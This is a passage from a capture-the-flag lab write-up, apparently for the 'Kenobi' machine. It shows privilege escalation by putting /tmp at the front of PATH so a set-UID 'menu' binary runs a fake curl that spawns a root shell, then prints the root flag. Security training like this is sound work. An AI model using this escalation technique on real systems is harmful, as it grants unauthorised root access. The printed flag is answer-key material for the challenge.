 ```bash
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu
```

* **`menu` Behavior (pseudocode):**

  1. Prompt: “Enter your choice :”
  2. If option `1` (status check) is selected, it runs `curl localhost`

     * Since `/tmp` is at the front of `$PATH`, our malicious `/tmp/curl` is executed instead of the system binary.
     * That spawns a root shell because `menu` is set-UID and running as root (verified by `id` after exploitation).

#### 5.2.3 Steps in `menu` Prompt

```
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
```

* After choosing `1`, the prompt runs `/tmp/curl`, which is our shell payload.
* We immediately become root:

```text
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),27(sudo),...
```

### 5.3 Capture Root Flag

```bash
# ls /root
root.txt

# cat /root/root.txt
177b3cd8562289f37382721c28381f02
```

* **Root Flag Obtained:** `177b3cd8562289f37382721c28381f02`.

---

## 6. Cleanup & Recommendations

* **Unmount NFS share:**

  ```bash
  exit      # exit from Kenobi’s shell if still active
  sudo umount /mnt/kenobiNFS
  ```
* **Remove local copies of private key:**
